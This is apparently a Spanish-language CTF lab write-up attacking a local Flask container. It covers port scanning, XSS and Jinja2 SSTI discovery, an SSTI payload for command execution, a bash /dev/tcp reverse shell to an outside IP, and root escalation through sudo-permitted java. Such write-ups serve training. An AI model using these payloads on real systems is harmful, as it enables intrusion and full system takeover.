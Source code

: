 # Info
## IP Víctima
```
172.17.0.2
```

# Writeup
## Reconocimiento
### Escaneo de puertos
En primer lugar, como siempre, lanzamos un escaneo de puertos para identificar los servicios abiertos en sus respectivos puertos:
```shell
❯ nmap -p 0-65535 --open -T5 -A -sT -Pn -n 172.17.0.2 -oX nmapScan.xml && xsltproc nmapScan.xml -o nmapScan.html && open nmapScan.html &>/dev/null & disown
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-01 18:02 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000089s latency).
Not shown: 65535 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
5000/tcp open  http    Werkzeug httpd 3.0.1 (Python 3.12.3)
|_http-title: Pingu Flask Web
|_http-server-header: Werkzeug/3.0.1 Python/3.12.3
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 1 hop
```
Nos encontramos con un servidor HTTP corriendo en el puerto 5000 sobre Werkzeug 3.0.1 y Python 3.12.3, del escaneo nada más salta a la vista, así que vamos a echarle un vistazo a la página web. Nos encontramos con un formulario de registro que pide los siguientes campos: nombre, cumpleaños, email y teléfono.
![[Screenshot_2025-09-01_18_12_24.png]]
El único campo que hace algún cambio relevante es el de nombre, al clicar en Save te redirige a /greet, donde leemos un mensaje que lee Hola *nombre que hemos puesto en el campo*! 
Con esta información lo que podríamos probar es distintos payloads de XSS o SQLi, mientras tanto dejaré fuzzing trabajando a ver si encuentra alguna ruta interesante.
## Explotación
#### XSS
Con tan solo probar el segundo payload ya vemos que el formulario es efectivamente vulnerable a XSS, al probar esto `<script>alert(1)</script>` en el campo del nombre, nos salta una alerta del navegador, confirmando la vulnerabilidad.
Además, el FFUF ha dado con la ruta /console, pero al tratar de acceder a ella nos solicita un PIN que no tenemos.
![[Screenshot_2025-09-01_18_25_37.png]]
#### SSTI
Después de leer y probar un rato distintas cosas con XSS, finalmente obtengo un error probando payloads de SSTI. Hago las pruebas correspondientes siguiendo las instrucciones de [PayLoadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection): 
1. Ponemos en el input que sospechamos vulnerable un payload comodín que hace saltar un error en la mayoría de ocasiones en casi cualquier template engine. `${{>%[%'"}}%\. ` 
2. Probamos distintos payloads con el fin de obtener el template engine que está corriendo en el servidor web, en este caso, ya con el primer payload `{{7*7}}` sabemos que es Jinja2
3. Con esa información en mente, podemos, con esta línea, ejecutar un comando a nivel de sistema `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}`
4. Una vez esa línea nos devuelve el siguiente output *Hello uid=1001(pinguinazo) gid=1001(pinguinazo) groups=1001(pinguinazo),100(users) !* podemos ir a por la reverse shell introduciendo este payload:
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen("bash -c 'bash -i >& /dev/tcp/192.168.1.157/443 0>&1'").read() }}
```

## Post explotación
#### Escalada de privilegios
Al lanzar sudo -l, vemos que el usuario puede ejecutar el binario java con permisos root
```bash
pinguinazo@29a22f0dc193:~/flask_ssti_lab$ sudo -l
sudo -l
Matching Defaults entries for pinguinazo on 29a22f0dc193:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User pinguinazo may run the following commands on 29a22f0dc193:
    (ALL) NOPASSWD: /usr/bin/java
```
Ya que en GTFObins no encuentro nada, voy directo a RevShells, de donde saco una reverse shell de java. Desde mi máquina levanto un servidor HTTP con `python3 -m http.sever` y con curl lo descargo desde la otra revshell activa, una vez la shell esta instalada, me pongo en escucha en una nueva terminal y ejecuto el comando como root: `sudo /usr/bin/java rev.java`, cuando tabulo hacia mi otra consola, veo que ya soy root.
```
root@29a22f0dc193:/home/pinguinazo/flask_ssti_lab# whoami
whoami
root
```